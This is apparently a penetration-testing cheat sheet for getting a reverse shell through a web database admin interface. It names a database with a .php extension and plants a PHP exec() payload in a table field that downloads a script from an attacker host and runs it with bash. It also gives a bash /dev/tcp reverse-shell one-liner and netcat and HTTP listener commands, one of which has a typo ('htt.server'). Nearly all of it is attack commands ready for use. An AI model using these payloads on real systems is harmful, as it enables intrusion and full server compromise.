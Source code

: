 ### get reverse shell using php code
```
Create New Database > <databaseName>.php > Create
Change Database > <databaseName>.php > Structure > Create new table on database '<databaseName>.php' > Name: <tableName> > Number of Fields: 1 > Go
Field: <?php exec("wget <lhost>/<revShell> -O /tmp/sh && bash /tmp/sh"); ?> > Type: Text > Create
```

### get path to php file
```
Change Database > <databaseName>.php > Path to database
```

### generate reverse shell
```
echo "bash -i >& /dev/tcp/<lhost>/<lport> 0>&1" > <revShell>
```

### start listener
```
sudo python3 -m htt.server 80
nc -lnvp <lport>
```

